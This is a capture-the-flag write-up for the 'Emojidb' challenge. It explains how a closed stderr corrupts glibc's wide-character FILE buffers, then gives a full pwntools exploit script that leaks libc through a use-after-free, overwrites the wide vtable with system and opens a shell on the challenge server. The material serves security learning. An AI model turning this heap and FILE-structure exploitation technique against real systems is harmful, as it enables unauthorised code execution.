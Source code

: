 <h1>Emojidb</h1>

I will write up on the premise that  `dword_2020E0` has a value. 

I exploited Emojidb with analyzed result below. It could be wrong

First, before calling `_IO_wdo_write` , `_IO_wfile_xsputn` copies data to `_wide_data->_IO_write_ptr (short_buf)`

After `_IO_wdo_write` , It is supposed to rearrange write_base,write_end,.. of `_wide_data`  <strong>except fail to print data. </strong>

```C
int
_IO_wdo_write (_IO_FILE *fp, const wchar_t *data, _IO_size_t to_do)
{ 
	if (_IO_new_do_write (fp, write_base, write_ptr - write_base) == EOF)
	    /* Something went wrong.  */
	    return WEOF;
...
...
   fp->_wide_data->_IO_write_base = fp->_wide_data->_IO_write_ptr
    = fp->_wide_data->_IO_buf_base;
  fp->_wide_data->_IO_write_end = ((fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
				   ? fp->_wide_data->_IO_buf_base
				   : fp->_wide_data->_IO_buf_end);

  return to_do == 0 ? 0 : WEOF;
}
```



I said ` _IO_wfile_xsputn` copies data to `_IO_write_ptr`. 

```C
_IO_size_t
_IO_wfile_xsputn (_IO_FILE *f, const void *data, _IO_size_t n)
{
  const wchar_t *s = (const wchar_t *) data;
  _IO_size_t to_do = n;
  int must_flush = 0;
  _IO_size_t count;
  ...
  
  count = f->_wide_data->_IO_write_end - f->_wide_data->_IO_write_ptr;
  
  ...
  ...
	/* Then fill the buffer. */
  if (count > 0)
    {
      if (count > to_do)
	count = to_do;
      if (count > 20)
	{
	  f->_wide_data->_IO_write_ptr =
	    __wmempcpy (f->_wide_data->_IO_write_ptr, s, count);
	  s += count;
	}
      else
	{
	  wchar_t *p = f->_wide_data->_IO_write_ptr;
	  int i = (int) count;
	  while (--i >= 0)
	    *p++ = *s++;
	  f->_wide_data->_IO_write_ptr = p;
	}
      to_do -= count;
    }
  
```



1. `_IO_write_ptr` will be increased by size of data. 
2. `_IO_new_do_write` returns EOF because stderr is closed by run.sh
3. So `_IO_wdo_write` doesn't rearrange `_IO_FILE` section of  `_wide_data` , but `_IO_write_ptr` is already increased.
4. After `__fwprintf_chk(stderr, 1LL, &off_1038, v4);` , `_IO_write_ptr` is bigger than `_IO_write_end`
5. `count` type of `_IO_wfile_xsputn` is `_IO_size_t (size_t , unsigned long)` . Next time the function is called , `count = f->_wide_data->_IO_write_end - f->_wide_data->_IO_write_ptr;` is not negative and we can pass the `if (count > 0)` condition.
6. Overwrite payload from `_wide_data->short_buf` to ` _wide_vtable`
7. Lastly If ` _wide_vtable`  was overwritten with system, Send wrong unicode data to call system. 
8. Get shell



```python
#-*- coding: utf-8 -*-
from pwn import *
from ctypes import *
import os

lib = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
#p = process("/home/ctf/run.sh")
#p = remote("192.168.123.228",9876))
p = remote("emojidb.pwni.ng",9876)


lib.setlocale(0,"en_US.UTF-8")

go = lambda x : p.sendafter("❓",str(x))
go2 = lambda x : p.sendlineafter("❓",str(x))
goi = lambda x : p.sendlineafter("🔢❓",str(x))

def decode(array) :
    ptr = create_string_buffer(len(array)*4)
    lib.mbstowcs(ptr,array,len(array)*4)
    return ptr.value

def encode(array) :
    ptr = create_string_buffer(len(array)*4)
    lib.wcstombs(ptr,array,len(array)*4)
    return ptr.value

def new(size,content) :
    go2('🆕')
    go(size)
    p.sendline(content)

def free(idx) :
    go2('🆓')
    goi(idx)

def view(idx) :
    go2('📖')
    goi(idx)

new(0x110,"")
new(0x3,encode("A"*0x10))
free(1)

view(1)

a = p.recvuntil("🆕")[:-4]

print hexdump(a)
leak = decode(a)
if len(leak) < 3 :
    print("retry")
    quit()

libc = u64(leak+"\x00\x00") - 0x3ebca0

print 'libc : ' + hex(libc)

new(0x3,encode("B"))

free(2)
free(1)

view(1)

new(3,"A")
new(3,"A")
new(3,"A")
new(3,"A")
new(3,"A")

payload = "A"*8
payload += "C" *4 + p64(libc+0x3ec860) * 2 #mallochook

p.sendline(encode("AAAA"))
p.sendline(encode("AAAA"))
p.sendline(encode("AAAA"))

p.sendline(encode(payload))

p.sendline(encode("A"*0x3c+"/bin/sh;"+p64(libc+0x4f440)*2))

p.sendline("\xf3X\xf3")

p.interactive()
```

